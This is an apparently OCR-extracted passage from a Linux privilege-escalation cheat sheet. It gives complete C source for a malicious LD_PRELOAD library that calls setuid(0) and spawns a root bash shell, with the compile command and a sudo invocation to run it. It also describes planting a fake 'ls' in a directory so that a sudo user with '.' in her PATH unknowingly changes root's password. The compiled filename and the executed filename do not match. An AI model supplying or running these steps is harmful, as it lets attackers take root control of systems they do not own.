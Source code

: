         -   Make a c binary

            -   \#include \<stdio.h\>

            -   \#include \<sys/types.h\>

            -   \#include \<stdlib.h\>

            -   void \_init() {

            -   unsetenv(\"LD\_PRELOAD\");

            -   setgid(0);

            -   setuid(0);

            -   system(\"/bin/bash\");

            -   }

            -   Compile it

                -   open terminal and go to any Writable Directory .  writtable directory like  {/tmp , /var/tmp , /dev/shm}  for dropping shell

                -   gcc -fPIC -shared -o evil.so evil.c --nostartfiles

            -   Execute

                -   sudo LD\_PRELOAD=pe.so \<COMMAND\> \#Use any command you can run with sudo

-   **Exploiting users with '.' in their PATH**

    -   Having '.' in your PATH means that the user is able to execute binaries/scripts from the current directory. To avoid having to enter those two extra characters every time, the user adds '.' to their PATH. This can be an excellent method for an attacker to escalate his/her privilege.

    -   Requires user interaction

        -   rather type: \$ program Instead of  \$ ./program

    -   To avoid having to enter those two extra characters every time, the user adds \'.\' to their PATH. This can be an excellent method for an attacker to escalate his/ her privilege, for example:\
        Joe (the attacker) happens to know that that Suzy has sudo privileges to change users passwords - unfortunately for the admins she also has the power to change the root password. Now Suzy is a lazy girl and thus has \'.\' in her PATH. Joe places a program called \'ls\' in a directory Suzy often visits. This \'ls\' program contains code to modify root\'s password. Now when Suzy enters that directory and asks for a listing, because she has \'.\' in her path, the \'ls\' that Joe placed in the directory is run, instead of /bin/ls. Now root\'s password has been changed, and Joe is able to logon as root.\
        Having \'.\' in your PATH can also help the attacker if exploiting programs that make system(), execvp(), or execlp() calls to programs, if they do not specify the full path to the program the attacker can place a program into a directory in the PATH, so that program is run instead - this works because programmers just expect that the program they mean to run will be in the PATH.

    -   To add \'.\' to your path type this at the prompt PATH=.:\${PATH} then to be able to use the \'.\' in your path enter export PATH.

-   **AUTOMATION TOOLS :**

    -   Metasploit
